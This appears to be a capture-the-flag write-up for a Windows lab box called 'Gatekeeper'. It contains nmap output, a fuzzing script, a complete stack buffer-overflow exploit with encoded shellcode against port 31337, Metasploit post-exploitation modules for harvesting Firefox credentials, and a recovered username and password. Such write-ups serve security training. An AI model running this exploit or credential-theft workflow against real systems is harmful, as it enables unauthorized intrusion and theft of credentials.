

# Gatekeeper

## nmap

PORT      STATE    SERVICE            VERSION
135/tcp   open     msrpc              Microsoft Windows RPC
139/tcp   open     netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open     ssl/ms-wbt-server?
|_ssl-date: 2020-08-12T13:29:34+00:00; +2s from scanner time.
3925/tcp  filtered zmp
5005/tcp  filtered avt-profile-2
31337/tcp open     Elite?

Host script results:
|_clock-skew: mean: 1h00m02s, deviation: 2h00m00s, median: 1s
|_nbstat: NetBIOS name: GATEKEEPER, NetBIOS user: <unknown>, NetBIOS MAC: 02:c3:73:ed:0c:d9 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: gatekeeper
|   NetBIOS computer name: GATEKEEPER\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-08-12T09:29:27-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-08-12T13:29:27
|_  start_date: 2020-08-12T13:24:07


## smb Enumeration

### smbclient

After enumeration we find some shares lets see with smbmap if we can see can read any.


got file brainpain.exe


## buffer


#### fuzzing

access violation is there now lets find offset


```python
#!/usr/bin/env python

import socket
import sys
from time import sleep
ip = '172.16.62.128'
port = 31337

buf = ""
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

for i in range(30):
    buf += "A" * 100
    print "Send buffer of {} to {}:{}".format(len(buf),ip,port)
    
    try:
        s.connect((ip, port))
        s.send(buf)
        sleep(1)
        s.close()

    except:
        print "could not  connect to {}:{}".format(ip,port)
        sys.exit(0)
```


#### offset


offset at 146


#### EIP

controlling EIP


```python
buffer = "A" * 146 + "B" * 4
```


#### badchars

```shell
badchars "\x00\x0a"
```


#### finding return address

found two return address


080414C3
080416BF

valid return address

```assembly
080414C3
```


#### exploit


local exploit

````python
#!/usr/bin/env python

import socket
import sys
from time import sleep
ip = '172.16.62.128'
port = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

payload = ("\xdb\xd0\xb8\x96\x9a\x20\x8a\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
        "\x52\x31\x46\x17\x83\xc6\x04\x03\xd0\x89\xc2\x7f\x20\x45\x80"
        "\x80\xd8\x96\xe5\x09\x3d\xa7\x25\x6d\x36\x98\x95\xe5\x1a\x15"
        "\x5d\xab\x8e\xae\x13\x64\xa1\x07\x99\x52\x8c\x98\xb2\xa7\x8f"
        "\x1a\xc9\xfb\x6f\x22\x02\x0e\x6e\x63\x7f\xe3\x22\x3c\x0b\x56"
        "\xd2\x49\x41\x6b\x59\x01\x47\xeb\xbe\xd2\x66\xda\x11\x68\x31"
        "\xfc\x90\xbd\x49\xb5\x8a\xa2\x74\x0f\x21\x10\x02\x8e\xe3\x68"
        "\xeb\x3d\xca\x44\x1e\x3f\x0b\x62\xc1\x4a\x65\x90\x7c\x4d\xb2"
        "\xea\x5a\xd8\x20\x4c\x28\x7a\x8c\x6c\xfd\x1d\x47\x62\x4a\x69"
        "\x0f\x67\x4d\xbe\x24\x93\xc6\x41\xea\x15\x9c\x65\x2e\x7d\x46"
        "\x07\x77\xdb\x29\x38\x67\x84\x96\x9c\xec\x29\xc2\xac\xaf\x25"
        "\x27\x9d\x4f\xb6\x2f\x96\x3c\x84\xf0\x0c\xaa\xa4\x79\x8b\x2d"
        "\xca\x53\x6b\xa1\x35\x5c\x8c\xe8\xf1\x08\xdc\x82\xd0\x30\xb7"
        "\x52\xdc\xe4\x18\x02\x72\x57\xd9\xf2\x32\x07\xb1\x18\xbd\x78"
        "\xa1\x23\x17\x11\x48\xde\xf0\xb2\x9d\xde\x01\xa3\x9f\x1e\x17"
        "\x80\x29\xf8\x7d\xf6\x7f\x53\xea\x6f\xda\x2f\x8b\x70\xf0\x4a"
        "\x8b\xfb\xf7\xab\x42\x0c\x7d\xbf\x33\xfc\xc8\x9d\x92\x03\xe7"
        "\x89\x79\x91\x6c\x49\xf7\x8a\x3a\x1e\x50\x7c\x33\xca\x4c\x27"
        "\xed\xe8\x8c\xb1\xd6\xa8\x4a\x02\xd8\x31\x1e\x3e\xfe\x21\xe6"
        "\xbf\xba\x15\xb6\xe9\x14\xc3\x70\x40\xd7\xbd\x2a\x3f\xb1\x29"
        "\xaa\x73\x02\x2f\xb3\x59\xf4\xcf\x02\x34\x41\xf0\xab\xd0\x45"
        "\x89\xd1\x40\xa9\x40\x52\x70\xe0\xc8\xf3\x19\xad\x99\x41\x44"
        "\x4e\x74\x85\x71\xcd\x7c\x76\x86\xcd\xf5\x73\xc2\x49\xe6\x09"
        "\x5b\x3c\x08\xbd\x5c\x15")

ret = "\xC3\x14\x04\x08"                            #080416BF       080414C3

nops = "\x90" * 16

buf = "A" * 146 + ret + nops + payload 

s.connect((ip, port))
s.send(buf + "\r\n")
s.close()
````


shell


## Post


```
run post/windows/gather/enum_applications
```


moziila firefox is installed lets try to gather any loot or credentials from it


```
run post/multi/gather/firefox_creds
```


#### credentials from loot

mayor

8CL7O1N78MdrCIsV


using crackmapexec we got new credentials




#### psexec

